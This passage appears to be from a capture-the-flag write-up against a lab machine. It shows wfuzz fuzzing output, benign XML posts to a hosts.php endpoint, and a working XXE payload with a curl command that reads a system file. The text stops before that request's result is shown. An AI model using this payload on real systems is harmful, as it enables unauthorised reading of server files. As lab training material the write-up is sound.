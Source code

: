     Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
    
    ********************************************************
    * Wfuzz 2.2.9 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.10.10.78/hosts.php?FUZZ=abc
    Total requests: 114532
    
    ==================================================================
    ID      Response   Lines      Word         Chars          Payload
    ==================================================================
    
    
    Total time: 1403.956
    Processed Requests: 114532
    Filtered Requests: 114532
    Requests/sec.: 81.57804
    

#### xml Upload

It dawned on me that the xml file could be used for this site. By posting XML
in the format found in `test.txt`, we can get `hosts.php` to calculate the
number of hosts in the given subnet:

    
    
    root@kali# cat test.txt
    <details>
        <subnet_mask>255.255.255.192</subnet_mask>
        <test></test>
    </details>
    root@kali# curl -X POST -d @test.txt http://10.10.10.78/hosts.php
    
    There are 62 possible hosts for 255.255.255.192
    
    root@kali# cat test2.txt
    <details>
        <subnet_mask>255.255.255.0</subnet_mask>
        <test></test>
    </details>
    root@kali# curl -X POST -d @test2.txt http://10.10.10.78/hosts.php
    
    There are 254 possible hosts for 255.255.255.0
    

## XXE Exploit / User Shell

This page takes our xml input, and shows it back to us! We can do an inbound
XXE attack to read files:

    
    
    root@kali# cat exploit.xml
    <!DOCTYPE foo[
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/lsb-release"> ]>
    <details>
        <subnet_mask>&xxe;</subnet_mask>
        <test></test>
    </details>
    root@kali# curl -X POST -d @exploit.xml http://10.10.10.78/hosts.php -x http://127.0.0.1:8080
    